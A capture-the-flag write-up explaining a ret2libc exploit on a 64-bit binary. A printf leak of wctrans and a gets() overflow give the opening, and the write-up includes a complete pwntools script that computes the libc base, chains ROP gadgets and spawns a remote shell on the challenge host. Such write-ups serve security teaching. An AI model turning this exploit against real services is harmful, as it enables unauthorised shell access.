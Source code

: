 ![img_1](https://github.com/user-attachments/assets/499ba486-0676-43cc-b694-dfff14924939) \
Solved by : Relster
# Technique : *Ret2libc*


## 1. Patch binary & Binary protection checking.
We're given 3 binaries from the challenge they are *chall*, *ld-2.27.so*, and *libc-2.27.so*. Now let's do a patching on the *chall* binary.
```bash
~/Desktop/ctf/pwninit    # You can change this according to where you put your pwninit
```

Checking binary protection.
```bash
$ pwn checksec chall_patched 
[*] '/home/relster/Desktop/ctf/ehax/pwn/test/chall_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    Stripped:   No
```


## 2. Analyze the binary statically & dynamically
Ghidra:\
![img_2](https://github.com/user-attachments/assets/9db167a3-a696-43d4-a445-f50d49ede350) \

Not much is happening here, the only main thing we need to pay attention is the *printf("%p",wctrans);* which is leaking a libc function to stdout and *gets((char \*)local_a8);* which lets us input more than the buffer could hold (overflow). From here we could tell that our exploit would implement ret2libc (return-to-libc) technique to achieve our goal which is popping a shell on remote machine.

PIE disabled is very helpful here because we can just grab our rop gadgets from the binary itself, below is the list of gadgets we'd use:\
```pop rdi; ret;``` <--- Popping the address of the string '/bin/sh\x00' to the RDI register.\
```ret;         ``` <--- Used for stack alignment purposes (since this is a 64bit binary).\
these 2 above would be enough to help us setup the exploit.

Noticed that PIE is disabled but here ASLR is enabled by default from our OS. Since ASLR randomizing base address of functions, then we'd have to use the leaked address at runtime to calculate the base address of *libc* in this case. If we got the base address of *libc* then address of function like *system()* would be easily obtain at runtime and we'd have to just do basic arithmetic of addresses here. The leaked address that we mention is *wctrans* as we see above in the *printf("%p",wctrans)*. Now we'd need the offset of *wctrans* to the *libc*'s base address, to obtain these offsets we can use *pwntools* we can also use *pwntools* to find the rop gadget that we need so we don't have to manually use *ropper*/*ROPgadget* to extract gadgets 1 by 1. One more thing to remember is the string '/bin/sh\x00' which we will need to pass it to *system()* where we can pop a shell. For obtaining the address of string '/bin/sh\x00' we can use method and function called *search()* and *next()*, more detail will be shown on the exploit. We will see the details below in the script.


## 3. Writing the exploit
We got 2 things to do here:
1. Find size from buffer to saved RBP.
2. Extract the leaked address from the binary and store it into a variable.

Let's find the offset first, this time we'll use gdb because it's straight forward (IMO).\
![img_3](https://github.com/user-attachments/assets/6359b582-65f3-48f2-849c-18af0013126e) \

Since there's no canary so we don't have to worry about it. Let's put our focus to the buffer size and saved RBP, we can see that 0xa0 in decimal is 160, don't forget the 8 bytes of RBP too. So our total junk payload would be 168 bytes, this means our RIP will start at 169th byte up to 176th byte.

For extracting the *wctrans* leaked address we'd use python's slicing technique, more detail can be seen on the exploit.

Below is the final exploit for this challenge:
```python
#!/usr/bin/env python

from pwn import *

context.arch = 'amd64'
#context.log_level = 'DEBUG'

TARGET = './chall_patched'
HOST = 'chall.ehax.tech'    # nc chall.ehax.tech 4269
PORT = 4269

elf = ELF(TARGET)
libc = ELF('./libc.so.6')
ld = ELF("./ld-2.27.so")

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

gdb_script = f"""
    break *main
"""
#gdb.attach(p, gdbscript=gdb_script)

# ======================================= #
'''
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x3fe000)
'''

offset = b'A' * 168 # RIP at 169th

### 1st Step == Preparing everything (gadgets, offset, etc) ###

# gadgets & symbols offset
rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi'])[0]
wctrans_offset = libc.symbols['wctrans']
system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b"/bin/sh\x00"))

print(f"ret : {hex(ret)}")
print(f"rdi : {hex(pop_rdi)}")
print(f"wctrans : {hex(wctrans_offset)}")
print(f"system : {hex(system_offset)}")
print(f"binsh : {hex(binsh_offset)}")

### 2nd Step == Calculating base address of libc and calculating other functions' address ###

# leaked wctrans, libc base, system()
p.recvline()
out = p.recvuntil(b'0x7')
leaked_wctrans = int((b'0x7' + p.recv()[:11]).decode(), 16)
libc_base = leaked_wctrans - wctrans_offset
system = libc_base + system_offset
binsh = libc_base + binsh_offset

print(f"leaked_wctrans : {hex(leaked_wctrans)}")
print(f"libc_base : {hex(libc_base)}")
print(f"system : {hex(system)}")
print(f"binsh : {hex(binsh)}")

### 3rd Step == Build payload and send it off to remote target ###

payload = flat(
    offset,
    ret,
    pop_rdi,
    binsh,
    system
)
p.sendline(payload)

p.interactive()
p.close()

# NOTE:
# ret2libc
```


## 4. Run the exploit
Local:\
![Screenshot 2025-02-17 024958](https://github.com/user-attachments/assets/39d3e76a-6b0f-48f4-8314-0aa1331bcea1)

Remote:\
![Screenshot 2025-02-17 025227](https://github.com/user-attachments/assets/ecbb101b-a013-42ae-b68f-8001b9f38eaa)


## Keyword
ret2libc\
ASLR and PIE\
x86_64 calling convention\
Binary dependency (specific libc for specific offset)
